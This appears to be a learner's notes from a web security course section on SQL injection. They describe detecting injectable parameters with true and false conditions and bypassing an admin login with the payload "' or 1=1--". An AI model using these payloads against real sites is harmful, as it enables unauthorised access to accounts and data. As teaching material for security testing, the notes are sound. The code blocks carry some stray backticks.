 Section 13: SQL Injection Vulnerabilities

## Discovering SQL Injections

In every input:
- Inject a statement that returns false
- Inject a statement that returns true
- Compare results

Example: In a filtering by category search param is being reflected on web page

(First try HTML injection, then XSS)

Original Statement:

```
Select * from shop where category = 'Food and Drink'
```

Injection test

```
Select * from shop where category = 'Food and Drink' and 1=1--`
```

dashes at the end to comment out

```
Select * from shop where category = 'Food and Drink' and 1=0--`
```

the web application broke at second query

---

## Bypassing Admin Login Using Logical Operators

Example: login credentials in login, breaking when entering password as quote

Visualize Original Statement

```
SELECT * FROM USERS WHERE username = '$username' AND password = '$password'
```

<b>SQL Injection</b>

```
SELECT * FROM users WHERE username = 'admin' AND password = `'test' or 1=1--`
````

this will evaluate to true

Payload:

```
` or 1=1--
```

---



